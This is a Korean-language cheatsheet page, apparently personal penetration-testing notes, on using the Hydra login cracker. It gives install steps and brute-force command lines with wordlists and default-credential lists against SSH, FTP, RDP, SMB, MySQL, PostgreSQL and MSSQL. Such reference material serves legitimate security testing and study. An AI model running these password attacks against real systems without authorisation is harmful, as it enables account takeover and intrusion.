

repository: naaamgi/my-docusaurus-page · page: cheatsheet/password-attacks/hydra/index.html · generator: docusaurus

---
sidebar_position: 2
---

# Hydra

강력한 네트워크 로그인 크래커입니다.

## 설치

```bash
# Kali Linux
sudo apt install hydra

# 또는
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra
./configure
make
make install
```

## 기본 사용법

```bash
hydra <RHOST> -l <USERNAME> -p <PASSWORD> <PROTOCOL>
hydra <RHOST> -L <USER_LIST> -P <PASS_LIST> <PROTOCOL>
hydra <RHOST> -C <COMBO_FILE> <PROTOCOL>
```

## 프로토콜별 예제

### SSH

```bash
# 단일 사용자/비밀번호
hydra -l root -p password ssh://<RHOST>

# 워드리스트 사용
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<RHOST>
hydra -L users.txt -P passwords.txt ssh://<RHOST>

# 포트 지정
hydra -l root -P wordlist.txt ssh://<RHOST>:2222
```

### FTP

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<RHOST>
hydra -L users.txt -P passwords.txt ftp://<RHOST>

# Combo 파일 (username:password 형식)
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://<RHOST>
```

### RDP

```bash
hydra -l administrator -P passwords.txt rdp://<RHOST>
hydra -L users.txt -P passwords.txt rdp://<RHOST>
```

### SMB

```bash
hydra -l administrator -P passwords.txt smb://<RHOST>
hydra -L users.txt -P passwords.txt smb://<RHOST>
```

### MySQL

```bash
hydra -l root -P passwords.txt mysql://<RHOST>
hydra -L users.txt -P passwords.txt mysql://<RHOST>
```

### PostgreSQL

```bash
hydra -l postgres -P passwords.txt postgres://<RHOST>
```

### MSSQL

```bash
hydra -l sa -P passwords.txt mssql://<RHOST>
```
